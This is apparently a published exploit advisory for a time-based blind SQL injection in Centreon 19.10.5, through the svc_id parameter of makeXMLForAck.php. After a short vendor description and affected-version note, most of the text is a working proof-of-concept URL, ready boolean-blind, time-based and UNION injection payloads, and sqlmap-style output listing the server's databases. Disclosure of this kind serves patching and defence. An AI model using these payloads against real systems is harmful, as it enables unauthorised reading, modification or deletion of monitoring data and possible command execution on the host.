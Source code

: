 # Exploit Title: Centreon 19.10.5 - 'id' SQL Injection
# Date: 2020-04-19
# Exploit Author: Basim alabdullah
# Vendor Homepage: https://www.centreon.com
# Software Link: https://download.centreon.com/
# Version: v.19.10.5
# Tested on: Centos 5


[EXECUTIVE SUMMARY]

 Centreon has come a long way from its early roots. A user-friendly monitoring console on Nagios before, Centreon is today, a rich monitoring platform powered by Centreon Engine, Centreon Broker and Centreon Web.

 Monitoring-savvy IT practitioners who want Nagios-inspired flexibility without its complexity, easily embrace Centreon for robust infrastructure systems and network performance monitoring.
 Downloaded by hundreds and thousands of IT professionals worldwide.
 The analysis discovered a time-based blind SQL
 injection vulnerability in the tracker functionality of
 Centreon Monitoring software. A malicious user can inject arbitrary
 SQL commands to the application. The vulnerability lies in the project tracker
 service search functionality; depending on project visibility successful
 exploitation may require user authentication. A successful attack
 can read, modify or delete data from the database or execute arbitrary commands on the underlying system.

[VULNERABLE VERSIONS]

 The following version of the Centreon Monitoring was affected by the
 vulnerability; previous versions may be vulnerable as well:
 - Centreon version 19.10.5
 
 
[Proof of Concept]
 
 http://TARGET/centreon/include/monitoring/acknowlegement/xml/broker/makeXMLForAck.php?hid=15&svc_id=1%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CCONCAT%280x7176706b71%2C%28CASE%20WHEN%20%28ISNULL%28JSON_STORAGE_FREE%28NULL%29%29%29%20THEN%201%20ELSE%200%20END%29%2C0x716b716b71%29%2CNULL%2CNULL%23
 
 
 [Payloads]
 
  Parameter: svc_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: hid=15&svc_id=1 OR NOT 5782=5782

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hid=15&svc_id=1 AND (SELECT 1615 FROM (SELECT(SLEEP(5)))TRPy)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: hid=15&svc_id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7176706b71,0x724b66756a476759544f48716d61496b5a68754a4c6f42634e6e775272724c44616e567355527a6f,0x716b716b71),NULL,NULL#
---
[12:24:35] [INFO] testing MySQL
[12:24:35] [INFO] confirming MySQL
[12:24:35] [INFO] the back-end DBMS is MySQL
[12:24:35] [INFO] fetching banner
web server operating system: Linux Red Hat
web application technology: Apache 2.4.34, PHP 7.2.24
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
banner: '10.1.38-MariaDB'
[12:24:35] [INFO] fetching database names
[12:24:35] [INFO] starting 4 threads
[12:24:35] [INFO] resumed: 'centreon'
[12:24:35] [INFO] resumed: 'test'
[12:24:35] [INFO] resumed: 'centreon_storage'
[12:24:35] [INFO] resumed: 'information_schema'
available databases [4]:                                                                                                                                                               
[*] centreon
[*] centreon_storage
[*] information_schema
[*] test
